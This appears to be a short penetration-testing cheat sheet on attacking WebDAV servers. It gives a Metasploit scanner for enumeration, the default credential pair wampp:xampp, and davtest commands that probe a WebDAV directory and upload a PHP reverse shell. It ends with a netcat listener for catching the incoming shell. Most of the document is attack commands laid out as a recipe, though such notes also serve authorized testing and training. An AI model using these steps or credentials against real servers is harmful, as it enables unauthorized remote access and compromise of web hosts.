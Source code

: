 ```yaml
---
title: WebDAV Pentesting
description: WebDAV is a set of extensions to the Hypertext Transfer Protocol, which allows user agents to collaboratively author contents directly in an HTTP web server.
tags:
    - Web
refs:
date: 2023-01-09
draft: false
---
```


## Enumeration

```sh
msfconsole
msf> use auxiliary/scanner/http/webdav_scanner
```

<br />

## Default Credentials

```sh
wampp:xampp
```

<br />

## Reverse Shell

### 1. Check if the exploit can be uploaded

```sh
davtest -url http://example.com/davdir -auth 'user:pass'
```

### 2. Upload the Reverse Shell Script

If we can upload the file e.g. PHP file, upload the script for reverse shell.

```sh
davtest -url http://example.com/davdir -auth 'user:pass' -uploadfile shell.php -uploadloc shell.php
```

### 3. Get a Shell

In local machine, start listener for getting a shell.

```sh
nc -lvnp 4444
```

Now access to http://example.com/davdir/shell.php.  
We should get a shell.